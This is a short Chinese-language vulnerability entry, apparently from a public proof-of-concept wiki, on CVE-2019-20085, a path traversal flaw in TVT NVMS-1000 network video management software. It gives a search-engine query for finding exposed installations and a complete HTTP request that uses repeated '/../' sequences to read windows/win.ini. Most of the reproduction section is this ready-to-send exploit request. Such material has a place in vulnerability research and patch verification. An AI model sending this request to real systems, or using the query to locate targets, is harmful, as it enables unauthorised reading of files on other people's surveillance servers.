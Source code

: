 # TVT数码科技 NVMS-1000 路径遍历漏洞 CVE-2019-20085

## 漏洞描述

TVT数码科技 TVT NVMS-1000是中国TVT数码科技公司的一套网络监控视频管理系统。 TVT数码科技 TVT NVMS-1000中存在路径遍历漏洞。远程攻击者可通过发送包含/../的特制URL请求利用该漏洞查看系统上的任意文件

## 漏洞影响

<a-checkbox checked>TVT NVMS-1000</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="TVT-NVMS-1000"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](/assets/PeiQi-Wiki/img/tvt-1.png)



发送请求包读取文件



```plain
GET /../../../../../../../../../../../../windows/win.ini HTTP/1.1
Host: 
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Connection: close
```



![img](/assets/PeiQi-Wiki/img/tvt-2.png)
